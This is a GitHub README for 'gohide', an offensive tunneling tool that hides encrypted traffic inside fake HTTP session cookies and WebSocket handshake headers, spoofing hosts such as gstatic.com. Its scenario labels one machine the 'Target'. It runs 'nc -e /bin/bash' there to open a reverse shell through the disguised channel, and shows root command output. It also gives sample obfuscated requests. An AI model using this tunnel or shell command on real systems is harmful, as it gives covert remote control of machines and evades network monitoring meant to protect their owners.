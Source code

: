 # gohide 

Tunnel port to port traffic via an obfuscated channel with AES-GCM encryption. 

**Obfuscation Modes**
- Session Cookie HTTP GET (http-client)
- Set-Cookie Session Cookie HTTP/2 200 OK (http-server) 
- WebSocket Handshake "Sec-WebSocket-Key" (websocket-client)
- WebSocket Handshake "Sec-WebSocket-Accept" (websocket-server)
- No obfuscation, just use AES-GCM encrypted messages (none)

AES-GCM is enabled by default for each of the options above.

**Usage**
```
root@WOPR-KALI:/opt/gohide# ./gohide -h
Usage of ./gohide:
  -f string
    	listen fake server -r x.x.x.x:xxxx (ip/domain:port) (default "0.0.0.0:8081")
  -k openssl passwd -1 -salt ok | md5sum
    	aes encryption secret: run with '-k openssl passwd -1 -salt ok | md5sum' to derive key from password without exposing to command line (default "5fe10ae58c5ad02a6113305f4e702d07")
  -l string
    	listen port forward -l x.x.x.x:xxxx (ip/domain:port) (default "127.0.0.1:8080")
  -m string
    	obfuscation mode (AES encrypted by default): websocket-client, websocket-server, http-client, http-server, none (default "none")
  -r string
    	forward to remote fake server -r x.x.x.x:xxxx (ip/domain:port) (default "127.0.0.1:9999")
```

**Scenario**

Box A - Reverse Handler.

```
root@WOPR-KALI:/opt/gohide# ./gohide -f 0.0.0.0:8081 -l 127.0.0.1:8080 -r 127.0.0.1:9091 -m websocket-client
Local Port Forward Listening: 127.0.0.1:8080
FakeSrv Listening: 0.0.0.0:8081
```
Box B - Target.
```
root@WOPR-KALI:/opt/gohide# ./gohide -f 0.0.0.0:9091 -r 127.0.0.1:8081 -l 127.0.0.1:9090 -m websocket-server
Local Port Forward Listening: 127.0.0.1:9090
FakeSrv Listening: 0.0.0.0:9091

```
Box B - Netcat /bin/bash

```
root@WOPR-KALI:/var/tmp# nc -e /bin/bash 127.0.0.1 9090

```
Box A - Netcat client
```
root@WOPR-KALI:/opt/gohide# nc -v 127.0.0.1 8080
localhost [127.0.0.1] 8080 (http-alt) open
id
uid=0(root) gid=0(root) groups=0(root)
uname -a
Linux WOPR-KALI 5.3.0-kali2-amd64 #1 SMP Debian 5.3.9-1kali1 (2019-11-11) x86_64 GNU/Linux
netstat -pantwu 
Active Internet connections (servers and established)
tcp        0      0 127.0.0.1:39684         127.0.0.1:8081          ESTABLISHED 14334/./gohide      

```
**Obfuscation Samples**

websocket-client (Box A to Box B)
- Sec-WebSocket-Key contains AES-GCM encrypted content e.g. "uname -a".
```
GET /news/api/latest HTTP/1.1
Host: cdn-tb0.gstatic.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: 6jZS+0Wg1IP3n33RievbomIuvh5ZdNMPjVowXm62
Sec-WebSocket-Version: 13
```

websocket-server (Box B to Box A)
- Sec-WebSocket-Accept contains AES-GCM encrypted output.
```
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: URrP5l0Z3NIHXi+isjuIyTSKfoP60Vw5d2gqcmI=
```
http-client
- Session cookie header contains AES-GCM encrypted content
```
GET /news/api/latest HTTP/1.1
Host: cdn-tbn0.gstatic.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Trident/7.0; rv:11.0) like Gecko
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://www.bbc.co.uk/
Connection: keep-alive
Cookie: Session=R7IJ8y/EBgCanTo6fc0fxhNVDA27PFXYberJNW29; Secure; HttpOnly
```
http-server
- Set-Cookie header contains AES-GCM encrypted content.
```
HTTP/2.0 200 OK
content-encoding: gzip
content-type: text/html; charset=utf-8
pragma: no-cache
server: nginx
x-content-type-options: nosniff
x-frame-options: SAMEORIGIN
x-xss-protection: 1; mode=block
cache-control: no-cache, no-store, must-revalidate
expires: Thu, 21 Nov 2019 01:07:15 GMT
date: Thu, 21 Nov 2019 01:07:15 GMT
content-length: 30330
vary: Accept-Encoding
X-Firefox-Spdy: h2
Set-Cookie: Session=gWMnQhh+1vkllaOxueOXx9/rLkpf3cmh5uUCmHhy; Secure; Path=/; HttpOnly

```

none
```
8JWxXufVora2FNa/8m2Vnub6oiA2raV4Q5tUELJA
```

![Screenshot from 2019-11-21 02-26-30](https://user-images.githubusercontent.com/56988989/69298676-804ba680-0c06-11ea-84f6-2a32c48a3ba0.png)

![Screenshot from 2019-11-21 16-40-07](https://user-images.githubusercontent.com/56988989/69357798-a3656d00-0c7d-11ea-9db9-d3fe5d2e9ccf.png)


Future
- Fix up error handling.
- Add flag/logic to disable tls.

Enjoy~
